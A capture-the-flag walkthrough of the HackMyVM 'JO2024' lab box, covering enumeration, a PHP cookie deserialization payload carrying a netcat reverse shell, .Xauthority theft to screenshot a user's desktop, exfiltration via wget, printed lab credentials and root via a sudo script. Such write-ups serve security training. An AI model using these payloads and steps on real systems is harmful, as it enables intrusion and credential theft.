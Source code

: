 ![[JO2024 hackmyvm.jpg]]

This medium challenge box employed a variety of attacks and techniques, including a PHP [[Cookie Serialization]] Attack that leveraged the `preferences.php` file to gain a [[Reverse Shell]]. Once access was obtained as the `www-data` user, the `.Xauthority` file was exploited to capture the `vanity` user's graphical session, enabling the extraction of sensitive data through a screenshot that revealed their password. Following this, privilege escalation techniques were utilized to run a script as root without a password, allowing for further access to protected content. 

**Initial [[Nmap]] scan**
```bash
└─$ nmap -A -sC -p- 192.168.5.103     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 17:56 EDT
Nmap scan report for 192.168.5.103
Host is up (0.0031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)
|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Paris 2024 Olympic Games
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.20 seconds
```

**Using [[Gobuster]] we discover `preferences.php`**
```bash
└─$ gobuster dir -u http://192.168.5.103 -e -r -x html,htm,asp,aspx,jsp,php,cgi,txt,xml -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              htm,asp,aspx,php,xml,html,cgi,txt,jsp
[+] Follow Redirect:         true
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
http://192.168.5.103/img                  (Status: 200) [Size: 2216]
http://192.168.5.103/index.php            (Status: 200) [Size: 7812]
http://192.168.5.103/index.php            (Status: 200) [Size: 7812]
http://192.168.5.103/preferences.php      (Status: 200) [Size: 3163]
http://192.168.5.103/server-status        (Status: 403) [Size: 278]
Progress: 46140 / 46150 (99.98%)
===============================================================
Finished
===============================================================

```

**Going to the `preferences.php` website:**
![[Pasted image 20240922160626.png]]

**Using `Burp Suite` we use the `Proxy` feature to intercept the traffic when we reload the page:**
![[Pasted image 20240922160847.png]]
**On the far right side of the window we can modify the `Decoded from` to gain a [[Netcat Reverse Shells]] using a PHP [[Cookie Serialization]] Attack:**

>O:15:"UserPreferences":2:{s:8:"language";s:31:"nc 192.168.5.10 9999 -e /bin/sh";s:15:"backgroundColor";s:4:"#ddd";}

>[!note]
>Make sure you replace the IP with your `Kali` IP address. Also the `31` needs to be modified to match the exact length of the value in the `language` field.

**Click `Apply changes` then `Forward`.**

>[!Optional] Optional
>Lets get a [[Better Shell]]
>```bash
>python3 -c 'import pty; pty.spawn("/bin/bash")'
>```

**We notice that the user `vanity` is logged in and using x11 / xwindows**
```bash
www-data@jo2024:/home/vanity$ w
w
 04:24:52 up 14 min,  1 user,  load average: 0.38, 0.27, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vanity   tty7     :0               04:10   14:21   0.00s  0.05s /usr/bin/lxsession -s LXDE -e LXDE
```

**Browse the contents of the vanity user's home folder to discover a "backup" script, which appears to be running every minute as a cronjob:**
```bash
/home/vanity$ cat backup 
#!/bin/bash

SRC="/home/vanity"
DEST="/backup"

rm -rf /backup/{*,.*}

echo "Starting copy..."
find "$SRC" -maxdepth 1 -type f ! -name user.txt | while read srcfile; do
    destfile="$DEST${srcfile#$SRC}"
    mkdir -p "$(dirname "$destfile")"
    dd if="$srcfile" of="$destfile" bs=4M

    md5src=$(md5sum "$srcfile" | cut -d ' ' -f1)
    md5dest=$(md5sum "$destfile" | cut -d ' ' -f1)
    if [[ "$md5src" != "$md5dest" ]]; then
        echo "MD5 mismatch for $srcfile :("
    fi
    chmod 700 "$destfile"

done

echo "Copy complete. All files verified !"
```

**Run a while loop to capture the vanity user's `.Xauthority` file and save it to `/tmp/log`, before the permissions are restricted by the user's backup script:**
```bash
while true; do cat /backup/.Xauthority >> /tmp/log 2>/dev/null;sleep 0.01; done
```

**Set `Xauthority` environment variable to use our copy of the user's `Xauthority` file:**
```bash
export XAUTHORITY=/tmp/log
```

**Take a screenshot of the user's desktop and save it to the `/tmp` folder:**
```bash
cd /tmp
xwd -root -screen -silent -display :0 > screenshot.xwd
```

**Start a local python HTTP server to serve the `/tmp` directory containing the screenshot file:**
```bash
python3 -m http.server 8888
```

**On Kali, use wget to download the screenshot file from the target system:**
```bash
└─$ wget http://192.168.10.101:8888/screenshot.xwd
```

**Install the `convert` tool on Kali, and use it to convert the screenshot file to a .PNG image, and open the image to discover the `vanity` user's password:**
```bash
└─$ sudo apt install graphicsmagick-imagemagick-compat
└─$ convert screenshot.xwd screenshot.png
└─$ open screenshot.png
```

**In the screenshot, we can see that the `vanity` user is viewing a text document with Mousepad, containing the user's password:**

![[Assets/vanity-user-desktop.jpg]]

**We can now login to the system as vanity via SSH, using the credentials `vanity:xd0oITR93KIQDbiD` :**

```bash
ssh vanity@192.168.5.103
```

**Run `sudo -l` to discover that user `vanity` can run a script named `php-server.sh` as root:**
```bash
vanity@jo2024:~$ sudo -l
sudo: unable to resolve host jo2024: Name or service not known
Matching Defaults entries for vanity on jo2024:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vanity may run the following commands on jo2024:
    (ALL : ALL) NOPASSWD: /usr/local/bin/php-server.sh
```

**View the contents of `php-server.sh`, then run the script as root:**
```bash
vanity@jo2024:~$ cat /usr/local/bin/php-server.sh
#!/bin/bash

/usr/bin/php -t /opt -S 0.0.0.0:8000

vanity@jo2024:~$ sudo /usr/local/bin/php-server.sh
```

**Open the web server using the `Burpsuite` web browser, and view the HTTP response for `/get_protected_content.php` to discover a password:**

![[Assets/burpsuite-response-containing-password.jpg]]

**Use this password `LightningBolt123` as the root user's password to gain root access:**
```bash
vanity@jo2024:~$ su root
Password:
root@jo2024:/home/vanity# id
uid=0(root) gid=0(root) groups=0(root)
```


